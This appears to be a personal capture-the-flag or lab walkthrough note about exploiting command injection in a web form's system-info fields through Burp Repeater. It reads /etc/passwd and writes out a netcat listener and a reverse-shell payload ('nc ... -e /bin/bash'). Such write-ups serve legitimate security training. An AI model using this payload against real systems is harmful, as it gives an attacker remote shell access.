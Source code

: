 
`local.txt` flag and `SYSTEM INFO PAGE`
![[Pasted image 20241203170856.png]]
checking `System information` check box and hitting submit
- displays `sys_info` field
![[Pasted image 20241203171113.png]]
checking `Track Listing` check box and hitting submit
- displays `sys_tracks` field
![[Pasted image 20241203171214.png]]

checking both boxes and hitting submit
![[Pasted image 20241203171333.png]]
sending to `repeater` to mess with fields
- results of current commands shown on line `92-95`
![[Pasted image 20241203171429.png]]
got `LCE` - able to see `/etc/passwd` - ensure that `url encoded`

![[Pasted image 20241203171551.png]]
`nc` exists on the box
![[Pasted image 20241203171646.png]]

setting up `nc` listener on `kali`
```bash
┌──(root💀gobots)-[11Nov2024 17:04:20]-[/var/log/apache2]
└─# nc -lvnp 1337                   
listening on [any] 1337 ...
```
creating payload to get a reverse shell:
```bash
/bin/nc 192.168.45.231 1337 -e /bin/bash
```

encoding payload in `burpsuite`
![[Pasted image 20241203172354.png]]
catching reverse shell and proof
![[Pasted image 20241203172416.png]]